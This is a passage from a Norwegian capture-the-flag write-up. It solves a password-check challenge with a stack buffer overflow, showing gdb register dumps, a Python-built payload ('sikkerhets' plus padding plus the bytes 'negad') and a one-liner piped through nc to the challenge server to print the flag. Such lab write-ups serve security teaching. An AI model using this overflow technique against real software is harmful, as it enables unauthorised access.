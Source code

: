 `$rdi` derimot peker på starten av payloaden vår.

`$rdx` er satt til `0xA` (`10`), dette er lengden på strengen som skal sammenlignes. Dette stemmer også overens med koden i Ghidra og lengden på strengen `sikkerhets`.

Vi vet nå at `strncmp` kommer til å feile fordi `$rsi` og `$rdi` har ulikt innhold. La oss oppdatere payloaden vår:

```bash
$ python -c 'print("sikkerhets" + "A" * 38 + "\x6e\x65\x67\x61\x64")'
sikkerhetsAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnegad
```

Den nye payloaden vår ser slik ut; `sikkerhetsAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnegad`. Vi har lagt til `sikkerhets` som første del av payloaden da vi vet at dette er den samme verdien som finnes i `$rsi`. I tillegg har vi fjernet 10 `A`'er, slik at vi har 38 istedet for 48.

Vi tester den nye payloaden på samme måte som tidligere. `r` for å kjøre programmet på nytt, `c` for å hoppe over det første `breakpoint`'et. Nå ser vi følgende:

```bash
strncmp@plt (
   $rdi = 0x00007fffffffd850 → "sikkerhetsAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAne[...]",
   $rsi = 0x0000555555556099 → "sikkerhets",
   $rdx = 0x000000000000000a
)
```

Dette ser lovende ut! Vi fortsetter med `c`:

```bash
gef➤  c
Continuing.
Kunne ikke finne flagget. Kontakt CTF adm!
[Inferior 1 (process 12546) exited with code 01]
```

> Kunne ikke finne flagget. Kontakt CTF adm!

Vi ser nå at vi har fått en melding fra `print_flag`-metoden. Som vi så i Ghidra tidligere ser `print_flag`-metoden etter en `flag.txt`-fil. Denne finnes ikke lokalt hos oss derfor får vi denne feilmeldingen. La oss prøve payloaden vår på den eksterne tjenesten:

```bash
$ nc ctf.uiactf.no 4001
Du har 3 forsøk på å låse opp flagget! :)
Forsøk 0 av 3
Skriv passordet: sikkerhetsAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnegad
UIACTF{må være forsiktig med brukerinput}
```

Suksess! 🤓😁👍🏻

La oss avslutte med en enkel oneliner for å lese ut flagget:

```bash
$ python -c 'print("sikkerhets" + "A" * 38 + "\x6e\x65\x67\x61\x64")' | nc ctf.uiactf.no 4001
Du har 3 forsøk på å låse opp flagget! :)
Forsøk 0 av 3
Skriv passordet: UIACTF{må være forsiktig med brukerinput}
```
